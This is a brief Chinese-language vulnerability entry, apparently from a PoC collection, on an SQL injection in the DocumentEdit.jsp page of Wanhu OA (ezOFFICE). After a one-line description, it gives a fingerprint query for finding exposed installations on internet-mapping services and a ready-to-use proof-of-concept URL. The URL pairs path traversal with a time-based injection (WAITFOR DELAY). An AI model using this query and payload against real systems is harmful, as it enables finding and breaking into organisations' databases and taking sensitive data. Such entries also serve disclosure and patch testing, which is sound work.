 # 万户OA DocumentEdit.jsp SQL注入漏洞

# 万户OA DocumentEdit.jsp SQL注入漏洞

## 漏洞描述

万户OA DocumentEdit.jsp文件存在SQL注入漏洞，攻击者通过发送特殊的请求包可以对数据库进行SQL注入，获取服务器敏感信息

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![1](/images/202209131047757.png)

验证POC

```
/defaultroot/iWebOfficeSign/OfficeServer.jsp/../../public/iSignatureHTML.jsp/DocumentEdit.jsp?DocumentID=1';WAITFOR%20DELAY%20'0:0:5'--
```

![1662358602569-71e26a34-726b-4d75-b683-225884ec7b4a](/images/202209131047397.png)

![3](/images/202209131047713.png)

